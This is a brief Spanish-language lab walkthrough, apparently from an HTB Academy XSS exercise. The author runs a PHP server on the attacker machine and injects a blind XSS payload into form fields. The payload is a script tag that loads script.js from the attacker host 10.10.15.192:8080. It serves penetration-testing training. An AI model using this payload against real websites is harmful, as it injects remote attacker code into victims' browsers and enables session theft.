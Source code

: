 Levanto un servidor php malicioso en mi maquina atacante.

```sh
sudo php -S 0.0.0.0:8080
```

![alt text](../assets/images/HTB_Academy_XSS/image-90.png)

Ahora compruebo cada uno de los campos con el contenido:

```html
"><script src=http://10.10.15.192:8080/script.js></script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-91.png)

Al completarse el script del comentario en el servidor malicioso obtengo las respuestas

![alt text](../assets/images/HTB_Academy_XSS/image-92.png)
